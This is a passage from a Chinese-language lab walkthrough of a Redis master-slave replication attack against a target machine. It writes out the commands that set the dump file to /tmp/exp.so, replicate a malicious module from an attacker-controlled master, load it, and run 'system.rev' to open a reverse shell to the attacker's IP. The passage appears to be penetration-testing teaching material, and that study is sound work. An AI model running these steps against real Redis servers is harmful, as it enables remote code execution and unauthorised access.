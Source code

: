 ### 3）靶机本机登录redis开启主从模式
`redis-cli -h 127.0.0.1 -a foobared`

     查看是否存在模块，可以看见目前没有可用模块
     
![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637654000923-43146776-b00f-4a62-b7af-f2a22e830d81.png#clientId=u9ca82c02-4aec-4&from=paste&height=65&id=ube8dce8c&margin=%5Bobject%20Object%5D&name=image.png&originHeight=87&originWidth=615&originalType=binary&ratio=1&size=11208&status=done&style=none&taskId=ucfd95d8c-f78f-489a-87d4-7a013fc3d65&width=461)

将靶机redis服务器作为**从**服务器，
将作为**主**服务器的kali上的恶意exp.so文件同步到靶机redis服务器上：
```bash
靶机执行：
//一般tmp目录都有写权限，所以选择这个目录写入
config set dir /tmp

//设置导出文件的名字
config set dbfilename exp.so

//进行主从同步，将恶意so文件写入到tmp目录
slaveof 攻击方ip 15000

```
靶机截图：

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637654230735-adbc8c1c-e5d1-4c9f-8057-273b39cb5977.png#clientId=u9ca82c02-4aec-4&from=paste&height=143&id=uea3e4538&margin=%5Bobject%20Object%5D&name=image.png&originHeight=190&originWidth=641&originalType=binary&ratio=1&size=23523&status=done&style=none&taskId=u45924db6-15a8-4b16-bcb7-bebaf10e020&width=481)

> **FULLRESYNC 响应表示第一次复制采用的全量复制**，也就是说，主库会把当前所有的数据都复制给从库。


可以看到kali作为主服务器，kali上出现FULLRESYNC，即**全局**同步数据中，将恶意的exp.so同步到靶机redis服务器上，同步时的截图如下：

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637654407242-b1d75094-3b00-44d7-b8e0-481ff0c93e25.png#clientId=u9ca82c02-4aec-4&from=paste&height=373&id=ud80ca5b1&margin=%5Bobject%20Object%5D&name=image.png&originHeight=746&originWidth=932&originalType=binary&ratio=1&size=191706&status=done&style=none&taskId=u3758a789-0a87-4bfb-a7b1-cf4fa12fa4f&width=466)

### 4）靶机本机执行恶意exp.so文件模块
在靶机redis服务器上，执行恶意模块：
```bash
// 加载写入的恶意so文件模块
module load ./exp.so	

// 查看恶意so有没有加载成功，主要是有没有"system"
module list

```

靶机redis执行恶意模块截图：

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637654638580-cc6dd0bc-1dce-4bca-827b-b79b13848e8c.png#clientId=u9ca82c02-4aec-4&from=paste&height=150&id=ue61d2465&margin=%5Bobject%20Object%5D&name=image.png&originHeight=200&originWidth=346&originalType=binary&ratio=1&size=14608&status=done&style=none&taskId=u225b4a7a-8543-4b32-9346-a8b9dc0cc5d&width=260)

靶机执行，**反弹shell**：
```bash
system.rev 攻击机ip 攻击监听端口
```

靶机执行反弹shell命令截图：

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637655038915-4353313e-d30a-47f2-b8ce-a9af2e14a667.png#clientId=u9ca82c02-4aec-4&from=paste&height=32&id=u0ec9a921&margin=%5Bobject%20Object%5D&name=image.png&originHeight=43&originWidth=455&originalType=binary&ratio=1&size=3540&status=done&style=none&taskId=u0654600f-4398-441f-8ff3-bd63ad38f5b&width=341)
